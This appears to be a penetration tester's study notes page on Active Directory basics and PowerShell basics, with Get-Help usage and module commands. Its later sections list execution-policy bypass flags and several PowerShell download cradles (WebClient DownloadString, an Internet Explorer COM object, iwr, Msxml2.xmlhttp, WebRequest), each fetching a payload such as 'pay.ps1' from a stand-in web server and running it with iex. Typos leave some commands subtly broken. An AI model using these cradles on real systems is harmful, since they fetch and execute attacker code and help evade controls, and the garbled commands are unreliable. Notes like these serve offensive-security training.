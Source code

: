 # AD Basics & PowerShell Basics

## AD Basics

* Components of AD
  * Shema - Defines objects and their attributes
  * Query and index mechanisem
  * Global catalog - Information about every object
  * Replication service - Distributes information accross domain controllers
* A forest - which is a security boundary - may contain multiple domains and each domain may contain multiple Ous

### How to interact with Active Directory

* \[ADSI]
* .NET Classes (System.DirectoryServices.ActiveDirectoryy)
* Native Executables (like net….)
* PowerShell (.NET classes and WMI)

## Powershell Basics

With PowerShell Scripts you can use cmdlets, native commands, functions, .net, dlls, Windows API

### Help Command

Get-Help \* - Lists everything abtout the help topic

Get-Help process (lists everything which contains the word process)

Update-Help - Update the healp system (v3+)

Get-help cmdlet\_name -Full - List full help about a topic

Get-Help cmdlet\_name -Examples

Get-command -CommandType cmdlet - List all cmdlets

&#x20;

### Execution Policy

It is NOT a security boundary

Powershell -exectionpolicy bypass\
powershell -ep bypass\
Powershell -c \<cmd>\
Powersehll -encodedcommand $env:PSExecutionPolicyPreference="bypass"

&#x20;

### Execute .PS1 File

. .\PowerView.ps1

### Module

Import a module/file\
Import-Module \<modulepath>

List all comamnds of a module:\
Get-Command -Module \<modulename>

&#x20;

### Download and execute PowerShell Scripts

iex (New-Object Net.WebClient).DownloadString('https://webserver/pay.ps1') - Invoke Expression (iex alias)

&#x20;**Use a COM Object**

$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('https://webserver/pay.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

**PSv3 or newer**

Iex (iwr '[http://websever/ps.ps1](http://websever/ps.ps1)') -iwr is alias for invoke-web request

&#x20;$h=New-Object -ComObject\
Msxml2.xmlhttp;$h.open('GET','http://webserver/ps.ps1',$fasle);$h.send();iex $h.responseText

&#x20;$wr = \[System.NET.WebRequest]::Create("http://werbser.ps.ps1")\
$r = $wr.GetResponse()\
IEX (\[System.IO.StreamReader]\($r.GetResponseStream())).ReadToEnd()

&#x20;







